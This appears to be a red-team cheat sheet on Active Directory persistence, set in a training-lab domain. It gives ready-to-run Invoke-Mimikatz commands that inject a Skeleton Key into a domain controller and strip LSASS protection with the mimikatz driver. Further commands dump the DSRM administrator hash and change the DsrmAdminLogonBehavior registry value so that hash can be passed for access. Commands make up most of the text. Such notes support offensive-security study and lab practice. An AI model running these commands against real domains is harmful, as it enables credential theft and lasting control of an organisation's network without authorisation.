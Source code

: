 Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice.

DA privileges required

~~~
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
~~~


Now, it is possible to access any machine with a valid username and password as **mimikatz**

~~~
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
~~~


In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (**mimidriv.sys**) on disk of the target DC:

~~~
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
~~~

That above would be **very noisy in logs** - Service installation (Kernel mode driver)

### DSRM (Directory Service Restore Mode)

- There is a local admin is every DC called _Administrator_ whose password is the DSRM password
- DSRM password (**SafeModePassword**) is required when a server is promoted to DC and its rarely changed
- After altering the configuration on the DC, its possible to pass the NTLM hash of this user to access the DC

Dump DSRM password:(needs DA privs)

~~~
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
~~~

Compare the Administrator hash with the Administrator hash of below command:

~~~
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
~~~

First one is the DSRM local Administrator

- Since it is the local administrator of the DC, we can pass the hash to authenticate.

But, **the Logon Behavior for the DSRM account needs to be changed before we can use its hash**:

~~~
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
~~~
